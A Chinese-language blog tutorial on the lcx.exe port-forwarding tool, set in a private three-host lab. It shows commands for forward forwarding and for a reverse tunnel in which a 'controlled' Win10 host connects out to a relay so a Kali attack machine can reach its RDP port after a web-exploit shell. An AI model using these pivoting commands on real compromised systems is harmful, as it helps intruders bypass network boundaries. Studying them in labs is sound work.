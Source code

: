 ```yaml
---
layout: post
title: lcx.exe端口转发工具使用
date: 2020-08-31 
tag: 网络安全
typora-root-url: ..

---
```


Lcx是一款端口转发工具,可以将内网机器的端口映射到带公网IP的机器上。一般进行渗透的时候,通过web漏洞getshell之后,需要对其进行远程登录,这就需要用到端口映射。

### 环境介绍

Win7：192.168.10.10

Win10：192.168.10.30

Kali：192.168.10.20



### 正向端口转发

终端上执行lcx命令，让本机指定端口的流量全部转发到远程主机指定IP指定端口上。然后通过本地指定端口，访问远程主机指定端口。

192.168.10.30主机上执行下列命令，将其1234端口流量全部转发到主机192.168.10.10的3389端口

```python
# lcx.exe -tran LocalPort RemoteHost RemotePOrt 
lcx.exe -tran 1234 192.168.10.10 3389
```

192.168.10.30通过1234端口远程桌面登录192.168.10.10主机。

<img src="/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831231211741.png" alt="image-20200831231211741"  />



### 反向端口转发

kali机以Win7主机为跳板远程登录Win10主机

1）将外网服务器Win7上的9000端口流量转发到该机的9001端口，Win7上执行：

```python
#lcx.exe -listen SourcePort  TargetPort
lcx.exe -listen 9000 9001
```

![image-20200831232955074](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831232955074.png)

2）将被控服务器Win10主机流量转发到外网服务器Win7，Win10上执行：

```python
# lcx.exe -slave RemoteHost RemotePort LocalHost LocalPort
lcx.exe -slave 192.168.10.10 9000 127.0.0.1 3389
```

![image-20200831233649504](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831233649504.png)

3）kali攻击机通过远程访问外网服务器Win7的9000端口，远程登录Win10主机，kali上执行：

```python
# rdesktop host:port
rdesktop 192.168.10.10:9001
```

![image-20200831233051609](/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831233051609.png)

执行命令弹出远程登录框，输入账号和密码，即可完成对Win10的远程登录：

<img src="/images/posts/2020-08-31-lcx.exe使用介绍.assets/image-20200831233220029.png" alt="image-20200831233220029" style="zoom:50%;" />

这样，攻击机kali在没有无法访问靶机Win10的情况下，通过端口转发和二者共同可以访问的外网主机Win7，远程登录靶机。



### 备注

在执行lcx.exe命令过程中，注意打印的提示内容，显示端口网络连接情况